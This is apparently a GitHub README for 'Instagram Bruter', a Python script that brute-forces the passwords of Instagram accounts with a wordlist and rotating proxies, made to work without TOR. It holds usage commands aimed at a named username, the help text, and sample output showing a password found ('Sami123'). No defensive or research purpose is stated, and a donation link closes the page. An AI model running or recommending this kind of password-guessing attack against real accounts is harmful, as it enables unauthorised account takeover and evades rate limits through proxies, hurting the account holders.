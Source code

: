 # Instagram Bruter

Re-engineered to work **without** TOR

__Usage:__ `python instagram.py <username> <wordlist> <threads>`
<br>
**Example:** `python instagram.py Sami09.1 pass.lst 16`

### Requirements
- Python *v2.x* **|** *v3.x*
- ~~Kali Linux 2.0~~
- ~~TOR~~

### Help
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py -h
usage: instagram.py [-h] username wordlist threads

positional arguments:
  username    email or username
  wordlist    password list
  threads     password per seconds. Any number <= 16

optional arguments:
  -h, --help  show this help message and exit
```

### Start
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py Sami09.1 pass.lst 16
```

### Run
```
[-] Proxy-IP: 159.89.133.123[United States]
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: 16
[-] Attempts: 16
[-] Proxies: 395
````

### Stop
```
[-] Proxy-IP: 167.99.12.149[United States]
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: Sami123
[-] Attempts: 22
[-] Proxies: 394

[!] Password Found
[+] Username: Sami09.1
[+] Password: Sami123
```

### Donate!
Support the authors: Umesh Shinde

<noscript><a href="https://liberapay.com/umeshshinde19/donate"><img alt="Donate using Liberapay" src="https://liberapay.com/assets/widgets/donate.svg"></a></noscript>
